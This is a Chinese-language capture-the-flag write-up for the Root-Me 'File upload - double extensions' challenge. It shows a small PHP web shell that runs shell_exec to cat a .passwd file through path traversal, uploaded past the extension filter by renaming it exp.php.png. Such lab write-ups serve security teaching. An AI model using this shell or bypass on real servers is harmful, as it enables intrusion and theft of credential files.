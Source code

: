 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-double-extensions)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2985/)]

------

题目给出了两个提示：

- 双重后缀绕过（double extensions）
- 目标文件 .passwd 在 web 服务的根路径

上传一个图片测试一下，页面会给出图片的 URL 地址，点开后可以打开原图，猜测这或许是一个可利用点。

![](http://exp-blog.com/wp-content/uploads/2019/01/88e6de58b673e929eeef8dd62cf77932.png)

又从给出的 URL 地址知道，上传的文件距离 web 服务根目录的位置，因此可以构造一个路径穿越的 payloads 文件，文件名为 `exp.php`：

```php
<?php
	// exp.php.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

但因为上传会检测文件后缀，无法直接上传。把文件更名为 `exp.php.png` 尝试绕过检测机制，上传成功。

![](http://exp-blog.com/wp-content/uploads/2019/01/db22bfb2ff40248475e4ac4db7139479.png)

上传成功后，打开这个伪造的图片文件，发现它被作为 php 文件解析了（应该是 web 设置的问题），成功获得密码，完成挑战。


![](http://exp-blog.com/wp-content/uploads/2019/01/5172811e726ff7a69fb2881080ce4755.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

